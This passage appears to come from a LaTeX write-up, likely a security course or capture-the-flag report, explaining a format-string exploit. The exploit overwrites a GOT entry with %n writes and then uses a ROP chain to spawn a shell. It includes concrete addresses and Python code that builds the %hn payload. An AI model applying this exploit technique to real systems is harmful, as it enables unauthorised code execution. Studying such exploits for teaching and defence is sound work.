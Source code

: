 \section{Implementation}
\label{sec:implementation}
The buffer we used to execute {\tt execve("/bin/shh")} has the following contruction:

{\tt \small
\begin{verbatim}
+---------+  ^
| %x & %n |  |  stack
| three   |  |  grows
| times   |  |  this way
+---------+  +
|   ROP   |
|  chain  |
+---------+
| padding |
| optional|
+---------+
|  exit   |
|addresses|
+---------+
\end{verbatim}
}

We explain step by step how to construct the exploit in this section.

\subsection{printf specifiers}
When executing the \%n specifiers which point to the exit addresses, the printf() function will overwrite the entry in the GOT table. We needed to write the address {\tt 0x7ffff7b49c0e} at the address {\tt 0x601030} (see subsection on exit address). We write this adress in three times, in the following order:
\begin{enumerate}
\item {\tt 0x7fff} at {\tt 0x601034}
\item {\tt 0x9c0e} at {\tt 0x601030}
\item {\tt 0xf7b4} at {\tt 0x601032}
\end{enumerate}
Since \%n write the number of printed characters since the beginning of the execution of printf(), we need to write the address in the increasing order of their values. Because the position of the addresses of exit on the stack where from the 67th to the 69th and we only want to write 2 bytes, then the exploit must start with:

{\tt \small
\begin{verbatim}
exploit = ""
exploit += " %{}x ".format(0x7fff)
exploit += " %67$hn "
exploit += " %{}x ".format(0x9c0e - 0x7fff)
exploit += " %68$hn "
exploit += " %{}x ".format(0xf7b4 - 0x9c0e)
exploit += " %69$hn "
\end{verbatim}
}

A few change in the numerical values must be performed to take in account that we print spaces with the specifiers.

